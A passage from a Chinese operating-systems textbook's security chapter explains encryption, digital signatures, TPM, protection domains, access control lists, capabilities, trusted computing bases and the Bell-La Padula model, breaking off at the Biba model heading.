在算法中使用的加密参数叫做密钥（key）。如果P代表明文，KE 代表加密密钥，C代表密文，E代表加密算法（即，函数），那么C=E(P,KE )。这就是加密的定义。其含义是把明文P和加密密钥KE 作为参数，通过加密算法E就可以把明文变为密文。荷兰密码学家Kerckhoffs于19世纪提出了Kerckhoffs原则。该原则认为，加密算法本身应该完全公开，而加密的安全性由独立于加密算法之外的密钥决定。现在所有严谨的密码学家都遵循这一原则。
同样地，当D表示解密算法，KD 表示解密密钥时，P=D(C,KD )。也就是说，要想把密文还原成明文，可以用密文C和解密密钥KD 作为参数，通过解密算法D进行运算。这两种互逆运算间的关系如图9-2所示。
为了描述得更清楚些，我们假设在某一个加密算法里每一个字母都由另一个不同的字母替代，如所有的A被Q替代，所有的B被W替代，所有的C被E替代，以下依次类推：
明文：A B C D E F G H I J K L M N O P Q R S T U V W X Y Z
密文：Q W E R T Y U I O P A S D F G H J K L Z X C V B N M
这种密钥系统叫做单字母替换，26个字母与整个字母表相匹配。在这个实例中的加密密钥为：QWERTYUIOPASDFGHJKLZXCVBNM。利用这样的密钥，我们可以把明文ATTACK转换为QZZQEA。同时，利用解密密钥可以告诉我们如何把密文恢复为明文。在这个实例中的解密密钥为：KXVMCNOPHQRSZYIJADLEGWBUFT。我们可以看到密文中的A是明文中的K，密文中的B是明文中的X，其他字母依次类推。
从表面上看，这是一个安全的密钥机制，因为密码破译者虽然知道普通密钥机制（字母与字母间的替换），但他并不知道26!≈4×1026 中哪一个是可能的密钥。但是，给定一小段密文，这个密码还是能够被轻易破译掉。破译的基础在于利用了自然语言的统计特性。在英语中，如e是最常用的字母，接下来是t，o，a，n，i等。最常用的双字母组合有th，in，er，re等。利用这类信息，破译该密码是较为容易的。
许多类似的密钥系统都有这样一个特点，那就是给定了加密密钥就能够较为容易地找到解密密钥，反之亦然。这样的系统采用了私钥加密技术或对称密钥加密技术。虽然单字母替换方式没有使用价值，但是如果密钥有足够的长度，对称密钥机制还是相对比较安全的。对严格的安全系统来说，最少需要使用256位密钥，因为它的破译空间为2256 ≈1.2×1077 。短密钥只能够抵挡业余爱好者，对政府部门来说却是不安全的。
由于对信息进行加密和解密的运算量是可控制的，所以私钥加密体系十分有用。但是它也有一个缺陷：发送者与接受者必须同时拥有密钥。他们甚至必须有物理上的接触，才能传递密钥。为了解决这个矛盾，人们引入了公钥加密技术（1976年由Diffie和Hellman提出）。这一体系的特点是加密密钥和解密密钥是不同的，并且当给出了一个筛选过的加密密钥后不可能推出对应的解密密钥。在这种特性下，加密密钥可被公开而只有解密密钥处于秘密状态。
为了让大家感受一下公钥密码体制，请看下面两个问题：
问题1：314159265358979×314159265358979等于多少？
问题2：3912571506419387090594828508241的平方根是多少？
如果给一张纸和一支笔，加上一大杯冰激凌作为正确答案的奖励，那么大多数六年级学生可以在一两个小时内做出问题1的答案。而如果给一般成年人纸和笔，并许诺回答出正确答案可以免去终身50%税收的话，大多数人还是不能在没有计算器、计算机或其他外界帮助的条件下解答出问题2的答案。虽然平方和求平方根互为逆运算，但是它们在计算的复杂性上却有很大差异。这种不对称性构成了公钥密码体系的基础。在公钥密码体系中，加密运算比较简单，而没有密钥的解密运算却十分繁琐。
一种叫做RSA的公钥机制表明：对计算机来说，大数乘法比对大数进行因式分解要容易得多，特别是在使用取模算法进行运算且每个数字都有上百位时（Rivest等人,1978）。这种机制广泛应用于密码领域。其他广泛使用的还有离散对数（El Gamal,1985）。公钥机制的主要问题在于运算速度要比对称密钥机制慢数千倍。
当我们使用公钥密码体系时，每个人都拥有一对密钥（公钥和私钥）并把其中的公钥公开。公钥是加密密钥，私钥是解密密钥。通常密钥的运算是自动进行的，有时候用户可以自选密码作为算法的种子。在发送机密信息时，用接收方的公钥将明文加密。由于只有接收方拥有私钥，所以也只有接收方可以解密信息。
在接下来的许多场合里，我们将看到有些函数f，其特性是给定f和参数x，很容易计算出y=f(x)。但是给定f(x)，要找到相应的x却不可行。这种函数采用了十分复杂的方法把数字打乱。具体做法可以首先将y初始化为x。然后可以有一个循环，进行多次迭代，只要在x中有1位就继续迭代，随着每次迭代，y中的各位的排列以与迭代相关的方式进行，每次迭代时添加不同的常数，最终生成了彻底打乱位的数字排列。这样的函数叫做加密散列函数。
经常性地使用数字签名是很有必要的。例如，假设银行客户通过发送电子邮件通知银行为其购买股票。一小时后，定单发出并成交，但随后股票大跌了。现在客户否认曾经发送过电子邮件。银行当然可以出示电子邮件作为证据，但是客户也可以声称是银行为了获得佣金而伪造了电子邮件。那么法官如何来找到真相呢？
通过对邮件或其他电子文档进行数字签名可以解决这类问题，并且保证了发送方日后不能抵赖。其中的一个通常使用的办法是首先对文档运行一种单向散列运算（hashing），这种运算几乎是不可逆的。散列函数通常独立于原始文档长度产生一个固定长度的结果值。最常用的散列函数有MD5（Message Digest 5），一种可以产生16个字节结果的算法（Rivest，1992）以及SHA-1（Secure Hash Algorithm），一种可以产生20个字节结果的算法（NIST，1995）。比SHA-1更新版本有SHA-256和SHA-512，它们分别产生32字节和64字节的散列结果，但是迄今为止，这两种加密算法依然没有得到广泛使用。
下一步假设我们使用上面讲过的公钥密码。文件所有者利用他的私钥对散列值进行运算得到D(散列值)。该值称为签名块（signature block），它被附加在文档之后传送给接收方，如图9-3所示。对散列值应用D有些像散列解密，但这并不是真正意义上的解密，因为散列值并没有被加密。这不过是对散列值进行的数学变换。
接收方收到文档和散列值后，首先使用事先取得一致的MD5或SHA算法计算文档的散列值，然后接收方使用发送方的公钥对签名块进行运算以得到E(D(hash)）。这实际上是对解密后的散列进行“加密”，操作抵消，以恢复原有的散列。如果计算后的散列值与签名块中的散列值不一致，则表明：要么文档、要么签名块、要么两者共同被篡改过（或无意中被改动）。这种方法仅仅对一小部分数据（散列）运用了（慢速的）公钥密码体制。请注意这种方法仅仅对所有满足下面条件的x起作用：
E(D(x))=x
我们并不能保证所有的加密函数都拥有这种属性，因为我们原来所要求的就是：
D(E(x))=x
在这里，E是加密函数，D是解密函数。而为了满足签名的要求，函数运算的次序是不受影响的。也就是说，D和E一定是可交换的函数。而RSA算法就有这种属性。
要使用这种签名机制，接收方必须知道发送方的公钥。有些用户在其Web网页上公开他们的公钥，但是其他人并没有这么做，因为他们担心入侵者会闯入并悄悄地改动其公钥。对他们来说，需要其他方法来发布公钥。消息发送方的一种常用方法是在消息后附加数字证书，证书中包含了用户姓名、公钥和可信任的第三方数字签名。一旦用户获得了可信的第三方认证的公钥，那么对于所有使用这种可信第三方确认来生成自己证书的发送方，该用户都可以使用他们的证书。
认证机构（Certification Authority，CA）作为可信的第三方，提供签名证书。然而如果用户要验证有CA签名的证书，就必须得到CA的公钥，从哪里得到这个公钥？即使得到了用户又如何确定这的确是CA的公钥呢？为了解决上述两个问题，需要一套完整的机制来管理公钥，这套机制叫做PKI（Public Key Infrastructure，公钥基础设施）。网络浏览器已经通过一种特别的方式解决了这个问题：所有的浏览器都预加载了大约40个著名CA的公钥。
上面我们叙述了可用于数字证书的公钥密码体制。同时，我们也有必要指出不包含公钥体制的密码体系同样存在。
加密算法都需要密钥（Key）。如果密钥泄露了，所有基于该密钥的信息也等同于泄露了，可见选择一种安全的方法存储密钥是必要的。接下来的问题是：如何在不安全的系统中安全地保存密钥呢？
有一种方法在工业上已经被采用，该方法需要用到一种叫做可信平台模块（Trusted Platform Modules，TPM）的芯片。TPM是一种加密处理器（cryptoprocessor），使用内部的非易失性存储介质来保存密钥。该芯片用硬件实现数据的加密/解密操作，其效果与在内存中对明文块进行加密或对密文块进行解密的效果相同，TPM同时还可以验证数字签名。由于其所有的操作都是通过硬件实现，因此速度比用软件实现快许多，也更可能被广泛地应用。一些计算机已经安装了TPM芯片，预期更多的计算机会在未来安装。
TPM的出现引发了很多争议，因为不同厂商、机构对于谁来控制TPM和它用来保护什么有分歧。微软大力提倡采用TPM芯片，并且为此开发了一系列应用于TPM的技术，包括Palladium、NGSCB以及BitLocker。微软的观点是，由操作系统控制TPM芯片，并使用该芯片阻止非授权软件的运行。“非授权软件”可以是盗版（非法复制）软件或仅仅是没有经过操作系统认证的软件。如果将TPM应用到系统启动的过程中，则计算机只能启动经过内置于TPM的密钥签名的操作系统，该密钥由TPM生产商提供，该密钥只会透露给允许被安装在该计算机上的操作系统的生产商（如微软）。因此，使用TPM可以限制用户对软件的选择，用户或许只能选择经过计算机生产商授权的软件。
由于TPM可以用于防止音乐与电影的盗版，这些媒体生产商对该芯片表现出了浓厚的兴趣。TPM同样开启了新的商业模式，如“租借”歌曲与电影。TPM通过检查日期判断当前媒体是否已经“过期”，如果过期，则拒绝为该媒体解码。
TPM还有非常广泛的应用领域，而这些领域都是我们还未涉足的。有趣的是，TPM并不能提高计算机在应对外部攻击中的安全性。事实上，TPM关注的重点是采用加密技术来阻止用户做任何未经TPM控制者直接或间接授权的事情。如果读者想了解更多关于TPM的内容，在Wikipedia中关于可信计算（Trusted Computing）的文献可能会对你有所帮助。
如果有一个清晰的模型来制定哪些事情是允许做的，以及系统的哪些资源需要保护，那么实现系统安全将会简单得多。事实上很多安全方面的工作都是试图确定这些问题，到现在为止我们也只是浅尝辄止而已。我们将着重论述几个有普遍性的模型，以及增强它们的机制。
计算机系统里有许多需要保护的“对象”。这些对象可以是硬件（如CPU、内存段、磁盘驱动器或打印机）或软件（如进程、文件、数据库或信号量）。
每一个对象都有用于调用的单一名称和允许进程运行的有限的一系列操作。read和write是相对文件而言的操作；up和down是相对信号量而言的操作。
显而易见的是，我们需要一种方法来禁止进程对某些未经授权的对象进行访问。而且这样的机制必须也可以在需要的时候使得受到限制的进程执行某些合法的操作子集。如进程A可以对文件F有读的权限，但没有写的权限。
为了讨论不同的保护机制，很有必要介绍一下域的概念。域（domain）是一对（对象，权限）组合。每一对组合指定一个对象和一些可在其上运行的操作子集。这里权限（right）是指对某个操作的执行许可。通常域相当于单个用户，告诉用户可以做什么不可以做什么，当然有时域的范围比用户要更广。例如，一组为某个项目编写代码的人员可能都属于相同的一个域，以便于他们都有权读写与该项目相关的文件。
对象如何分配给域由需求来确定。一个最基本的原则就是最低权限原则（Principle of Least Authority，POLA），一般而言，当每个域都拥有最少数量的对象和满足其完成工作所需的最低权限时，安全性将达到最好。
图9-4给出了3种域，每一个域里都有一些对象，每一个对象都有些不同的权限（读、写、执行）。请注意打印机1同时存在于两个域中，且在每个域中具有相同的权限。文件1同样出现在两个域中，但它在两个域中却具有不同的权限。
任何时间，每个进程会在某个保护域中运行。换句话说，进程可以访问某些对象的集合，每个对象都有一个权限集。进程运行时也可以在不同的域之间切换。域切换的规则很大程度上与系统有关。
为了更详细地了解域，让我们来看看UNIX系统（包括Linux、FreeBSD以及一些相似的系统）。在UNIX中，进程的域是由UID和GID定义的。给定某个（UID，GID）的组合，就能够得到可以访问的所有对象列表（文件，包括由特殊文件代表的I/O设备等），以及它们是否可以读、写或执行。使用相同（UID，GID）组合的两个进程访问的是完全一致的对象组合。使用不同（UID，GID）值的进程访问的是不同的文件组合，虽然这些文件有大量的重叠。
而且，每个UNIX的进程有两个部分：用户部分和核心部分。当执行系统调用时，进程从用户部分切换到核心部分。核心部分可以访问与用户部分不同的对象集。例如，核心部分可以访问所有物理内存的页面、整个磁盘和其他所有被保护的资源。这样，系统调用就引发了域切换。
当进程把SETUID或SETGID位置于on状态时可以对文件执行exec操作，这时进程获得了新的有效UID或GID。不同的（UID，GID）组合会产生不同的文件和操作集。使用SETUID或SETGID运行程序也是一种域切换，因为可用的权限改变了。
一个很重要的问题是系统如何跟踪并确定哪个对象属于哪个域。从概念来说，至少可以预想一个大矩阵，矩阵的行代表域，列代表对象。每个方块列出对象的域包含的、可能有的权限。图9-4的矩阵如图9-5所示。有了矩阵和当前的域编号，系统就能够判断是否可以从指定的域以特定的方式访问给定的对象。
域的自我切换在矩阵模型中能够很容易实现，可以通过使用操作enter把域本身作为对象。图9-6再次显示了图9-5的矩阵，只不过把3个域当作了对象本身。域1中的进程可以切换到域2中，但是一旦切换后就不能返回。这种切换方法是在UNIX里通过执行SETUID程序实现的。不允许其他的域切换。
在实际应用中，很少会存储如图9-6的矩阵，因为矩阵太大、太稀疏了。大多数的域都不能访问大多数的对象，所以存储一个非常大的、几乎是空的矩阵浪费空间。但是也有两种方法是可行的。一种是按行或按列存放，而仅仅存放非空的元素。这两种方法有着很大的不同。这一节将介绍按列存放的方法，下一章节再介绍按行存放。
第一种方法包括一个关联于每个对象的（有序）列表里，列表里包含了所有可访问对象的域以及这些域如何访问这些对象的方法。这一列表叫做访问控制表（Access Control List，ACL），如图9-7所示。这里我们看到了三个进程，每一个都属于不同的域。A、B和C以及三个文件F1、F2和F3。为了简便，我们假设每个域相当于某一个用户，即用户A、B和C。若用通常的安全性语言表达，用户被叫做主体（subjects或principals），以便与它们所拥有的对象（如文件）区分开来。
每个文件都有一个相关联的ACL。文件F1在ACL中有两个登录项（用逗号区分）。第一个登录项表示任何用户A拥有的进程都可以读写文件。第二个登录项表示任何用户B拥有的进程都可以读文件。所有这些用户的其他访问和其他用户的任何访问都被禁止。请注意这里的权限是用户赋予的，而不是进程。只要系统运行了保护机制，用户A拥有的任何进程都能够读写文件F1。系统并不在乎是否有1个还是100个进程。所关心的是所有者而不是进程ID。
文件F2在ACL中有3个登录项：A、B和C。它们都可以读文件，而且B还可以写文件。除此之外，不允许其他的访问。文件F3很明显是个可执行文件，因为B和C都可以读并执行它。B也可以执行写操作。
这个例子展示了使用ACL进行保护的最基本形式。在实际中运用的形式要复杂得多。为了简便起见，我们目前只介绍了3种权限：读、写和执行。当然还有其他的权限。有些是一般的权限，可以运用于所有的对象，有些是对象特定的。一般的权限有destory object和copy object。这些可以运用于任何的对象，而不论对象的类型是什么。与对象有关的特定的权限会包括为邮箱对象的append message和对目录对象的sort alphabetically（按字母排序）等。
到目前为止，我们的ACL登录项是针对个人用户的。许多系统也支持用户组（group）的概念。组可以有自己的名字并包含在ACL中。语义学上组的变化也是可能的。在某些系统中，每个进程除了有用户ID（UID）外，还有组ID（GID）。在这类系统中，一个ACL登录项包括了下列格式的登录项：
UID1,GID1:rights1;UID2,GID2:rights2;...
在这样的条件下，当出现要求访问对象的请求时，必须使用调用者的UID和GID来进行检查。如果它们出现在ACL中，所列出的权限就是可行的。如果（UID，GID）的组合不在列表中，访问就被拒绝。
使用组的方法就引入了角色（role）的概念。如在某次系统安装后，Tana是系统管理员，在组里是sysadm。但是假设公司里也有很多为员工组织的俱乐部，而Tana是养鸽爱好者的一员。俱乐部成员属于pigfan组并可访问公司的计算机来管理鸽子的数据。那么ACL中的一部分会如图9-8所示。
如果Tana想要访问这些文件，那么访问的成功与否将取决于她当前所登录的组。当她登录的时候，系统会让她选择想使用的组，或者提供不同的登录名和密码来区分不同的组。这一措施的目的在于阻止Tana在使用养鸽爱好者组的时候获得密码文件。只有当她登录为系统管理员时才可以这么做。
在有些情况下，用户可以访问特定的文件而与当前登录的组无关。这样的情况将引入通配符（wildcard）的概念，即“任何组”的意思。如，密码文件的登录项
tana,*:RW
会给Tana访问的权限而不管她的当前组是什么。
但是另一种可能是如果用户属于任何一个享有特定权限的组，访问就被允许。这种方法的优点是，属于多个组的用户不必在登录时指定组的名称。所有的组都被计算在内。同时它的缺点是几乎没有提供什么封装性：Tana可以在召开养鸽俱乐部会议时编辑密码文件。
组和通配符的使用使得系统有可能有选择地阻止用户访问某个文件。如，登录项
virgil,*:(none);*,*:RW
给Virgil之外的登录项以读写文件的权限。上述方法是可行的，因为登录项是按顺序扫描的，只要第一个被采用，后续的登录项就不需要再检查。在第一个登录项中为Virgil找到了匹配，然后找到并应用这个存取权限，在本例中为（none）。整个查找在这时就中断了。实际上，再也不去检查剩下的访问权限了。
还有一种处理组用户的方法，无须使用包含（UID，GID）对的ACL登录项，而是让每个登录项成为UID或GID。如，一个进入文件pigeon_data的登录项是：
debbie:RW;phil:RW;pigfan:RW
表示debbie、phil以及其他所有pigfan组里的成员都可以读写该文件。
有时候也会发生这样的情况，即一个用户或组对特定文件有特定的许可权，但文件的所有者稍后又会收回。通过访问控制列表，收回过去赋予的访问权相对比较简单。这只要编辑ACL就可以修改了。但是如果ACL仅仅在打开某个文件时才会检查，那么改变它以后的结果就只有在将来调用open命令时才能奏效。对于已经打开的文件，就会仍然持有原来打开时拥有的权限，即使用户已经不再具有这样的权限。
另一种切分图9-6矩阵的方法是按行存储。在使用这种方法的时候，与每个进程关联的是可访问的对象列表，以及每个对象上可执行操作的指示。这一栏叫做权能字列表（capability list或C-list），而且每个单独的项目叫做权能字（Dennis和Van Horn，1966；Fabry,1974）。一个3进程集和它们的权能字列表如图9-9所示。
每一个权能字赋予所有者针对特定对象的权限。如在图9-9中，用户A所拥有的进程可以读文件F1和F2。一个权能字通常包含了文件（或者更一般的情况下是一个对象）的标识符和用于不同权限的位图。在类似UNIX的系统中，文件标识符可能是i节点号。权能字列表本身也是对象，也可以从其他权能字列表处指定，这样就有助于共享子域。
很明显权能字列表必须防止用户进行篡改。已知的保护方法有三种。第一种方法需要建立带标记的体系结构（tagged architecture），在这种硬件设计中，每个内存字节必须拥有额外的位（或标记）来判断该字节是否包含了权限字。标记位不能被算术、比较或相似的指令使用，它仅可以被在核心态下运行的程序修改（如操作系统）。人们已经构造了带标记体系结构的计算机，并可以稳定地运行（Feustal，1972）。IBM AS/400就是一个公认的例子。
第二种方法是在操作系统里保存权能字列表。随后根据权能字在列表中的位置引用权能字。某个进程也许会说：“从权能字2所指向的文件中读取1KB”。这种寻址方法有些类似UNIX里的文件描述符。Hydra（Wulf等人，1974）采用的就是这种方法。
第三种方法是把权能字列表放在用户空间里，并用加密方法进行管理，这样用户就不能篡改它们。这种方法特别适合分布式操作系统，并可按下述的方式工作。当客户进程发送消息到远程服务器（如一台文件服务器）时，请求为自己创建一个对象时，服务器会在创建对象的同时创建一条长随机码作为校验字段附在该对象上。文件服务器为对象预留了槽口，以便存放校验字段和磁盘扇区地址等。在UNIX术语中，校验字段被存放在服务器的i节点中。校验字段不会返回用户，也决不会被放在网络上。服务器会生成并回送给用户如图9-10格式的权能字。
返回给用户的权能字包括服务器的标识符、对象号（服务器列表索引，主要是i-node码）以及以位图形式存放的权限。对一个新建的对象来说，所有的权限位都是处于打开状态的，这显然是因为该对象的拥有者有权限对该对象做任何事情。最后的字段包含了对象、权限以及校验字段。校验字段运行在通过密码体制保护的单向函数f上，我们已经讨论过这种函数。
当用户想访问对象时，首先要把权能字作为发送请求的一部分传送到服务器。然后服务器提取对象编号并通过服务器列表索引找到对象。再计算f（对象，权限，校验）。前两个参数来自于权能字本身，而第三个参数来自于服务器表。如果计算值符合权能字的第四个字段，请求就被接受，否则被拒绝。如果用户想要访问其他人的对象，他就不能伪造第四个域的值，因为他不知道校验字段，所以请求将被拒绝。
用户可以要求服务器建立一个较弱的权能字，如只读访问。服务器首先检查权能字的合法性，检查成功则计算f（对象，新的权限，校验）并产生新的权能字放入第四个字段中。请注意原来的校验值仍在使用，因为其他较强的权能字仍然需要该校验值。
新的权能字被被发送回请求进程。现在用户可以在消息中附加该权能字发送到朋友处。如果朋友打开了应该被关闭的权限位，服务器就会在使用权限字时检测到，因为f的值与错误的权限位不能对应。既然朋友不知道真正的校验字段，他就不能伪造与错误的权限位相对应的权能字。这种方法最早是由Amoeba系统开发的，后被广泛使用（Tanenbaum等人,1990）。
除了特定的与对象相关的权限（如读和执行操作）外，权能字中（包括在核心态和密码保护模式下）通常包含一些可用于所有对象的普通权限。这些普通权限有：
1)复制权能字：为同一个对象创建新的权能字。
2)复制对象：用新的权能字创建对象的副本。
3)移除权能字：从权能字列表中删去登录项；不影响对象。
4)销毁对象：永久性地移除对象和权能字。
最后值得说明的是，在核心管理的权能子系统中，撤回对对象的访问是十分困难的。系统很难为任意对象找到它所有显著的权能字并撤回，因为它们存储在磁盘各处的权能字列表中。一种办法是把每个权能字指向间接的对象，而不是对象本身。再把间接对象指向真正的对象，这样系统就能打断连接关系使权能字无效。（当指向间接对象的权能字后来出现在系统中时，用户将发现间接对象指向的是一个空的对象。）
在Amoeba系统结构中，撤回权能字是十分容易的。要做的仅仅是改变存放在对象里的校验字段。只要改变一次就可以使所有的失效。但是没有一种机制可以有选择性地撤回权能字，如，仅撤回John的许可权，但不撤回任何其他人的。这一缺陷也被认为是权限系统的一个主要问题。
另一个主要问题是确保合法权能字的拥有者不会给他最好的朋友1000个副本。采用核心管理权能字的模式，如Hydra系统，这个问题得到解决。但在如Amoeba这样的分布式系统中却无法解决这个问题。
另一方面，权能字非常漂亮地解决了移动代码的沙盒问题。当外来程序开始运行时，给出的权能字列表里只包含了机器所有者想要给的权能，如在屏幕上进行写操作以及在刚创建的临时目录里读写文件的权利。如果移动代码被放进了自己的只拥有这些有限权能的进程中，就无法访问其他任何资源，相当于被有效地限制在了沙盒里。这种方法不需要修改代码，也不需要解释性执行。当运行的代码拥有所需的最少访问权时，符合了最小特权规则，这也是建立安全操作系统的方针。
人们总是可以从各种渠道中获得关于病毒、蠕虫以及其他相关的消息。天真的人可能会问下面两个问题：
1)建立一个安全的操作系统有可能吗？
2)如果可能，为什么不去做呢？
第一个问题的答案原则上是肯定的。如何建立安全系统的答案人们数十年前就知道了。例如，在20世纪60年代设计的MULTICS就把安全作为主要目标之一而且做得非常好。
为什么不建立一个安全系统是一个更为复杂的问题，主要原因有两个。首先，现代系统虽然不安全但是用户不愿抛弃它们。假设Microsoft宣布除了Windows外还有一个新的SecureOS产品，并保证不会受到病毒感染但不能运行Windows应用程序，那么很少会有用户和公司把Windows像个烫手山芋一样扔掉转而立即购买新的系统。事实上Microsoft的确有一款SecureOS（Fandrich等人,2006），但是并没有投入商业市场。
第二个原因更敏感。现在已知的建立安全系统仅有的办法是保持系统的简单性。特性是安全的大敌。系统设计师相信（无论是正确还是错误的）用户所想要的是更多的特性。更多的特性意味着更多的复杂性，更多的代码以及更多的安全性错误。
这里有两个简单的例子。最早的电子邮件系统通过ACSII文本发送消息。它们是完全安全的。ASCII文本不可能对计算机系统造成损失。然后人们想方设法扩展电子邮件的功能，引入了其他类型的文档，如可以包含宏程序的Word文件。读这样的文件意味着在自己的计算机上运行别人的程序。无论沙盒怎么有效，在自己的计算机上运行别人的程序必定比ASCII文本要危险得多。是用户要求从过去的文本格式改为现在的活动程序吗？大概不是吧，但系统设计人员认为这是个极好的主意，而没有考虑到隐含的安全问题。
第二个例子是关于网页的。过去的HTML网页没有造成大的安全问题（虽然非法网页也可能导致缓冲溢出攻击）。现在许多网页都包含了可执行程序（Applet），用户不得不运行这些程序来浏览网页内容，结果一个又一个安全漏洞出现了。即便一个漏洞被补上，又会有新的漏洞显现出来。当网页完全是静态的时候，是用户要求增加动态内容的吗？可能动态网页的设计者也记不得了，但随之而来是大量的安全问题。这有点像负责说“不”的副总统在车轮下睡着了。
实际上，确实有些组织认为，与非常漂亮的新功能相比，好的安全性更为重要。军方组织就是一个重要的例子。在接下来的几节中，我们将研究相关的一些问题，不过这些问题不是几句话便能说清楚的。要构建一个安全的系统，需要在操作系统的核心中实现安全模型，且该模型要非常简单，从而设计人员确实能够理解模型的内涵，并且顶住所有压力，避免偏离安全模型的要求去添加新的功能特性。
在安全领域中，人们通常讨论可信系统而不是安全系统。这些系统在形式上申明了安全要求并满足了这些安全要求。每一个可信系统的核心是最小的可信计算基（Trusted Computing Base，TCB），其中包含了实施的所有安全规则所必需的硬件和软件。如果这些可信计算基根据系统规约工作，那么，无论发生了什么错误，系统安全性都不会受到威胁。
典型的TCB包括了大多数的硬件（除了不影响安全性的I/O设备）、操作系统核心的一部分、大多数或所有掌握超级用户权限的用户程序（如在UNIX中的SETUID根程序）。必须包含在操作系统中的TCB功能有：进程创建、进程切换、内存页面管理以及部分的文件以及I/O管理。在安全设计中，为了减少空间以及纠正错误，TCB通常完全独立于操作系统的其他部分。
TCB中的一个重要组成部分是引用监视器，如图9-11所示。引用监视器接受所有与安全有关的系统请求（如打开文件等），然后决定是否允许运行。引用监视器要求所有的安全问题决策都必须在同一处考虑，而不能跳过。大多数的操作系统并不是这样设计的，这也是它们导致不安全的部分原因。
现今安全研究的一个目标是将可信计算基中数百万行的代码缩短为只有数万行代码。在图1-26中我们看到了MINIX 3操作系统的结构。MINIX 3是具有POSIX兼容性的系统，但又与Linux或FreeBSD有着完全不同的结构。在MINIX 3中，只有4000行左右的代码在内核中运行。其余部分作为用户进程运行。其中，如文件系统和进程管理器是可信基的一部分，因为它们与系统安全息息相关；但是诸如打印机驱动和音频驱动这样的程序并不作为可信计算库的一部分，因为不管这些程序出了什么问题，它们的行为也不可能危及系统安全。MINIX 3将可信计算库的代码量减少了两个数量级，从而潜在地比传统系统设计提供了更高的安全性。
诸如图9-5的保护矩阵并不是静态的。它们通常随着创建新的对象，销毁旧的对象而改变，而且所有者决定对象的用户集的增加或限制。人们把大量的精力花费在建立安全系统模型，这种模型中的保护矩阵处于不断的变化之中。在本节的稍后部分，我们将简单介绍这方面的工作原理。
几十年前，Harrison等人（1976）在保护矩阵上确定了6种最基本的操作，这些操作可用于任何安全系统模型的基准。这些最基本的操作是create object，delete object，create domain，delete domain，insert right和remove right。最后的两种插入和删除权限操作来自于特定的矩阵单元，如赋予域1读文件6的许可权。
上述6种操作可以合并为保护命令。用户程序可以运行这些命令来改变保护矩阵。它们不可以直接执行最原始的操作。例如，系统可能有一个创建新文件的命令，该命令首先查看该文件是否已存在，如果不存在就创建新的对象并赋予所有者相应的权限。当然也可能有一个命令允许所有者赋予系统中所有用户读取该文件的权限。实际上，只要把“读”权限插入到每个域中该文件的登录项即可。
此刻，保护矩阵决定了在任何域中的一个进程可以执行哪些操作，而不是被授权执行哪些操作。矩阵是由系统来强制的；而授权与管理策略有关。为了说明其差别，我们看一看图9-12域与用户相对应的例子。在图9-12a中，我们看到了既定的保护策略：Henry可以读写mailbox7，Robert可以读写secret，所有的用户可以读和运行compiler。
现在假设Robert非常聪明，并找到了一种方法发出命令把保护矩阵改为如图9-12b所示。现在他就可以访问mailbox7了，这是他本来未被授权的。如果他想读文件，操作系统就可以执行他的请求，因为操作系统并不知道图9-12b的状态是未被授权的。
很明显，所有可能的矩阵被划分为两个独立的集合：所有处于授权状态的集合和所有未授权的集合。经过大量理论上的研究后会有这样一个问题：给定一个最原始的授权状态和命令集，是否能证明系统永远不能达到未授权的状态？
实际上，我们是在询问可行的安全机制（保护命令）是否足以强制某些安全策略。给定了这些安全策略、最初的矩阵状态和改变这些矩阵的命令集，我们希望可以找到建立安全系统的方法。这样的证明过程是非常困难的：许多一般用途的系统在理论上是不安全的。Harrison等人（1976）曾经证明在一个不定的保护系统的不定配置中，其安全性从理论上来说是不确定的。但是对特定系统来说，有可能证明系统可以从授权状态转移到未授权状态。要获得更多的信息请看Landwehr（1981）。
大多数操作系统允许个人用户来决定谁可以读写他们的文件和其他对象。这一策略称为可自由支配的访问控制（discretionary access control）。在许多环境下，这种模式工作很稳定，但也有些环境需要更高级的安全，如军方、企业专利部门和医院。在这类环境里，机构定义了有关谁可以看什么的规则，这些规则是不能被士兵、律师或医生改变的，至少没有老板的许可是不允许的。这类环境需要强制性的访问控制（mandatory access control）来确保所阐明的安全策略被系统强制执行，而不是可自由支配的访问控制。这些强制性的访问控制管理整个信息流，确保不会泄漏那些不应该泄漏的信息。
1.Bell-La Padula模型
最广泛使用的多级安全模型是Bell-La Padula模型，我们将看看它是如何工作的（Bell La和Padula,1973）。这一模型最初为管理军方安全系统而设计，现在被广泛运用于其他机构。在军方领域，文档（对象）有一定的安全等级，如内部级、秘密级、机密级和绝密级。每个人根据他可阅读文档的不同也被指定为不同的密级。如将军可能有权阅取所有的文档，而中尉可能只被限制在秘密级或更低的文档。代表用户运行的进程具有该用户的安全密级。由于该系统拥有多个安全等级，所以被称为多级安全系统。
Bell-La Padula模型对信息流做出了一些规定：
1)简易安全规则：在密级k上面运行的进程只能读同一密级或更低密级的对象。例如，将军可以阅取中尉的文档，但中尉却不可以阅取将军的文档。
2)*规则：在密级k上面运行的进程只能写同一密级或更高密级的对象。例如，中尉只能在将军的信箱添加信息告知自己所知的全部，但是将军不能在中尉的信箱里添加信息告知自己所知的全部，因为将军拥有绝密的文档，这些文档不能泄露给中尉。
简而言之，进程既可下读也可上写，但不能颠倒。如果系统严格地执行上述两条规则，那么就不会有信息从高一级的安全层泄露到低一级的安全层。之所以用*代表这种规则是因为在最初的论文里，作者没有想出更好的名字所以只能用*作为临时的替代。但是最终作者没有想出更好的名字，所以在打印论文时用了*。在这一模型中，进程可以读写对象，但不能直接相互通信。Bell-La Padula模型的图解如图9-13所示。
在图中，从对象到进程的（实线）箭头代该进程正在读取对象，也就是说，信息从对象流向进程。同样，从进程到对象的（虚线）箭头代表进程正在写对象，也就是说，信息从进程流向对象。这样所有的信息流都沿着箭头方向流动。例如，进程B可以从对象1读取信息但却不可以从对象3读取。
简单安全模型显示，所有的实线（读）箭头横向运动或向上；*规则显示所有的虚线箭头（写）也横向运行或向上。既然信息流要么水平，要么垂直，那么任何从k层开始的信息都不可能出现在更低的级别。也就是说，没有路径可以让信息往下运行，这样就保证了模型的安全性。
Bell-La Padula模型涉及组织结构，但最终还是需要操作系统来强制执行。实现上述模型的一种方式是为每个用户分配一个安全级别，该安全级别与用户的认证信息（如UID和GID）一起存储。在用户登陆的时候，shell获取用户的安全级别，且该安全级别会被shell创建的所有子进程继承下去。如果一个运行在安全级别k之下的进程试图访问一个安全级别比k高的文件或对象，操作系统将会拒绝这个请求。相似地，任何试图对安全级别低于k的对象执行写操作的请求也一定会失败。
2.Biba模型
